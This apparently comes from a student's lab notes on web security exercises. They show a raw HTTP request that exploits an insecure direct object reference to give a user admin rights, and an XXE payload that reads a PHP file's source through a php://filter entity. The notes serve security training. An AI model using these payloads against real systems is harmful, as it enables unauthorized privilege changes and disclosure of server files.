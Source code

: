 change email

```bash

PUT /profile/api.php/profile/10 HTTP/1.1
Host: 94.237.63.201:42092
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en,en-US;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://94.237.63.201:42092/profile/index.php
Content-type: application/json
Content-Length: 175
Origin: http://94.237.63.201:42092
Connection: keep-alive
Cookie: role=employee

{"uid":10,"uuid":"bfd92386a1b48076792e68b596846499","role":"staff_admin","full_name":"admin","email":"flag@idor.htb","about":"I don't like quoting others!"}

```

# Local File Disclosure


Steps:
1.Entity have to be the same with email in DOCTYPE
2.not in this exercise but maybe sametimes you have to, if a web app sends requests in a JSON format, we can try changing the Content-Type header to application/xml
3.

```bash

POST /submitDetails.php HTTP/1.1
Host: 10.129.207.224
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en,en-US;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: text/plain;charset=UTF-8
Content-Length: 246
Origin: http://10.129.207.224
Connection: keep-alive
Referer: http://10.129.207.224/

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=connection.php">]>
<root>
<name>admin</name>
<tel></tel>
<email>&company;</email>
<message>memory</message>
</root>

```
